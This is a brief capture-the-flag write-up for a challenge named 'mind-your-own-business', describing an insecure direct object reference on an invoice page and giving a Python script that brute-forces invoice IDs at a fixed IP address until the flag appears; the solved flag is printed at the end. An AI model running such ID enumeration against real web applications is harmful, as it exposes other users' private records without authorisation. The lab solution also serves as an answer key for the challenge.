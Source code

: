 Get the flag from mind-your-own-business.

We enter on the subscription page, then we fill in the credintials.
We observe after that after the creditential completion is good, the page redirect us to a invoice page.
If we change the invoice page index we then observe we get more invoicees but some of them are "Oops, no invoice".

So then we have to test all the invoices to check in which page we get the "SSS", which is at the page 10946. 

//CODE

```

import requests
import re


start = 1
end = 30000

session = requests.Session()

for invoice_id in range(start, end + 1):
    url = f"http://141.85.224.70:8085/invoice.php?invoice={invoice_id}"
    print(f"🔎 Verific {url}")

    try:
        response = session.get(url, timeout=5)
    except Exception as e:
        print(f"⛔ Eroare la {url}: {e}")
        continue


    if "Oops! Invoice not found!" in response.text:
        continue


    match = re.search(r"SSS\{.*?\}", response.text)
    if match:
        flag = match.group(0)
        print(f"\n🎯 FLAG la invoice={invoice_id}: {flag}\n")


        with open(f"invoice_{invoice_id}.html", "w", encoding="utf-8") as f:
            f.write(response.text)

        break
```
The found flag: SSS{1ts_n0t_nic3_t0_sn00p_ar0und}

